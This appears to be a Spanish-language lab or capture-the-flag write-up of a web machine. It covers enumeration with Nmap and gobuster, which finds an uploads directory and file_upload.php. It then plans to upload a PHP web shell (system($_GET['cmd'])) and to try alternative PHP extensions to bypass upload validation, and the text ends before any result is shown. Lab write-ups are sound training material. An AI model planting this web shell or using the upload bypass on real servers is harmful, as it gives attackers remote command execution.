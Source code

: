 Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p [PORT] [IP_TARGET]
```

Tenemos un potencial directorio: El cual si no valida la subida de archivos nos permitiria subir un archivo mailicioso
```bash
/uploads/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
- `[ /uploads ]`: Aqui es donde se almacenan los archivos que sean subidos..
- `[ index.html ]`: Pagina principal de la web

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,sh,txt,html,js,php.back
```

- **Hallazgos**:
Tenemos una via potencial de subir archivos maliciosos si no se validad el tipo de archivo.
```bash
/file_upload.php      (Status: 200) [Size: 468]
```

### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora intentaremos subir un archivo **php** que nos permita ejeuctar una ejecutar un comando a nivel de sistema, 
Interceptaremos la peticion donde podemos cargar un archivo para intentar multiples extensiones de php.
### Ejecucion del Ataque
Crearemos un archivo: **( cmd.php )** el cual contrendra la siguiete estructura:
```php
<?php
  system($_GET["cmd"]);
?>
```

Una ves interceptada la peticion, Probraremos multiples extensiones php que contremplan como validas para estos archivos.
